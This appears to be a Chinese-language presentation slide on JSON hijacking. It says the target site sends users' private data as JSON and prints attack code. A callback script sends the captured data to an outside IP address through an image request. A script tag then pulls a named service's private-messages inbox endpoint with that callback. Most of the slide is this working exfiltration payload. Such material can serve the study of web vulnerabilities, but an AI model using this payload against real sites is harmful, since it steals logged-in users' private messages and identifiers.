

# 使用JSON Hijacking
使用JSON Hijacking技术：
目标站点使用了JSON数据传输用户私有数据。
该私有数据内包含我们需要的唯一标识等信息。
相关代码：
<script>
function hijack(o){
//use DOM method to get your data
new Image().src="http://192.168.1.2/JSONHiJack.asp?hi="+escape(data);
}</script>
<script src=http://api.fanfou.com/private_messages/inbox.json?callback=hijack&count=2></script>